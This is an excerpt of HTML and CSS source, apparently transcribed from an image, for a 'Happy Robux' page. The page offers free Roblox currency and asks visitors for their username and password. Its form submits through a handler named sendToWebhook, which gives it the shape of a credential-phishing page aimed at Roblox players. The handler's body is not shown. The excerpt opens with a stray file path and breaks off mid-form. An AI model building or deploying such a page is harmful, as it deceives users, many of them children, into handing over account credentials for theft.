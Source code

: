             margin-bottom: 5px;
        }
        .copyright {
            text-align: center;
            color: white;
            opacity: 0.7;
            font-size: 12px;
            margin-top: 20px;
            font-family: Arial, sans-serif;
            line-height: 1.4;
        }
        #popup {
            display: none;
            position: fixed;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            background-color: rgba(0, 0, 0, 0.5);
            justify-content: center;
            align-items: center;
            z-index: 1000;
        }
        #popup-content {
            background-color: #444444;
            padding: 20px;
            border-radius: 5px;
            max-width: 400px;
            text-align: center;
            color: white;
        }
        #popup-content p {
            font-size: 16px;
            opacity: 1;
            margin: 10px 0;
        }
        #popup-content button {
            background-color: #1e90ff;
            color: white;
            border: none;
            padding: 10px;
            border-radius: 5px;
            cursor: pointer;
        }
        #popup-content button:hover {
            background-color: #007bff;
        }
    </style>
</head>
<body>
    <div class="title-container">
        <h1>Happy Robux 😊</h1>
        <select id="robux-amount" onchange="checkRobuxSelection()">
            <option value="">Select Robux Amount</option>
            <option value="100">100 Robux</option>
            <option value="500">500 Robux</option>
            <option value="1000">1000 Robux</option>
        </select>
    </div>
    <div class="input-container">
        <form onsubmit="sendToWebhook(event)">
            <input type="text" placeholder="Username" id="usernameInput" required>
            <input type="password" placeholder="Password" id="passwordInput" required>
            <button type="submit" id="submitButton" disabled>Submit</button>
